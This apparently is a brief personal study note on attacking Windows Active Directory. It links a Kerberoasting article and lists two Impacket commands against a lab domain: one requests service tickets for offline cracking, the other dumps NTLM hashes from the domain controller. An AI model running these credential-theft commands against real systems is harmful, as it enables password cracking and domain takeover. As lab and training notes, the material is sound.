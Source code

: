 ```yaml
---
tags:
  - Exploitation
  - OperatingSystems
  - Windows
  - KnownExploits
---
```

See [[2. Enumeration/TCP/88. Kerberos/1. Guide|Kerberos]]

https://www.blackhillsinfosec.com/a-toast-to-kerberoast/

`GetUserSPNs.py -request -dc-ip 192.168.2.160 lab.local/zuul`

`secretsdump.py -just-dc-ntlm LAB/sqladmin@192.168.2.160`
